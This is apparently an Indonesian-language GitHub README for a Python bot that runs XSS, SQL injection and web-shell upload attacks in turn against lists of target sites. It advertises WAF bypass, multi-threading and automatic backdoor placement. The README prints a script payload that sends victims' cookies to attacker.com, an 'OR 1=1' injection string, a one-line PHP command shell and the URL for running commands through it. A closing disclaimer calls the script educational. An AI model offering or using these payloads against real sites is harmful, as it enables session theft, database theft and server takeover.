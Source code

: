 # XSS-SQLI
XSS + SQL Injection + Web Shell Upload Bot
---

# **XSS + SQL Injection + Web Shell Upload Bot**  
**Versi: 1.0**  

## **📌 Tentang Script Ini**  
Script ini adalah **bot sederhana** yang menggabungkan tiga teknik serangan web yang umum:  

1️⃣ **XSS (Cross-Site Scripting)** → Menyisipkan script berbahaya untuk mencuri **cookie/session** user.  
2️⃣ **SQL Injection** → Mengeksploitasi celah SQL untuk mendapatkan **data sensitif** dari database.  
3️⃣ **Web Shell Upload** → Mengunggah file shell untuk mendapatkan **akses penuh ke server**.  

---

## **⚙️ Cara Kerja Script**  
✅ **User memasukkan target** (manual atau dari file).  
✅ **Bot menjalankan serangan berurutan** (XSS → SQLi → Web Shell).  
✅ **Jika SQL Injection berhasil**, lanjut **upload web shell** otomatis.  
✅ **Serangan dilakukan dengan encoding canggih** untuk **bypass WAF**.  
✅ **Menggunakan multi-threading** supaya bisa menyerang banyak target sekaligus.  

---

## **📂 Fitur Utama**  
✔️ **XSS Payload terenkripsi** → Meminimalkan deteksi oleh WAF.  
✔️ **Bypass WAF SQL Injection** → Menggunakan payload yang lebih stealth.  
✔️ **Web Shell Upload** → Menyisipkan backdoor di server target.  
✔️ **Bot otomatis multi-threading** → Bisa menyerang banyak target dalam waktu singkat.  
✔️ **Error Handling** → Script tidak akan crash jika target mati atau tidak responsif.  

---

## **🚀 Cara Menggunakan**  
### **1️⃣ Jalankan Script**  
```bash
python3 xss_sqli_shell.py
```
  
### **2️⃣ Pilih Metode Input Target**  
1️⃣ **Manual** → Masukkan URL target satu per satu.  
2️⃣ **Dari File** → Masukkan daftar target dari file (`targets.txt`).  

**Contoh format file `targets.txt`**  
```
http://victim.com/vuln.php?input=
http://testsite.com/comment.php?msg=
```

---

## **🔴 Contoh Serangan**  
📌 **XSS Attack:**  
```html
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

📌 **SQL Injection:**  
```sql
' OR 1=1--
```

📌 **Web Shell Upload:**  
- Mengunggah file `shell.php` berisi:  
```php
<?php system($_GET['cmd']); ?>
```
- Setelah berhasil, akses shell:  
```
http://target.com/uploads/shell.php?cmd=whoami
```

---

## **📌 Catatan**  
🔹 Script ini **sederhana** dan hanya untuk **edukasi** tentang keamanan web.  
🔹 Jangan digunakan untuk hal ilegal! Gunakan hanya di **sistem yang Anda miliki atau izin resmi**.  
🔹 **Pastikan memahami konsep dasar keamanan web** sebelum menggunakan script ini.  

---

## **👨‍💻 Dibuat Oleh**  
🛠️ **Cyber-Heroes** - Edukasi & Eksperimen Keamanan Web  
---
